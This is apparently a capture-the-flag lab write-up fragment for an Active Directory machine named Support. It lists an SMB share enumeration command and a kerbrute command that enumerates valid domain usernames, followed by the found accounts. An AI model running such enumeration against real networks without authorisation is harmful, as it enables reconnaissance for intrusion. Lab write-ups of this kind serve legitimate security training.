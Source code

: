 
```
Domain Name: SUPPORT                                                           
Domain Sid: S-1-5-21-1677581083-3380853377-188903654
```

```
 smbclient -L 10.10.11.174 
```
![[Pasted image 20231121141920.png]]


I got the valid user but it tooks some try's to get the domain name right
```
kerbrute userenum -d SUPPORT --dc 10.10.11.174 userlist.txt -t 100
```

```
support@SUPPORT
guest@SUPPORT
administrator@SUPPORT
management@SUPPORT
ldap@SUPPORT
```
![[Pasted image 20231121144103.png]]

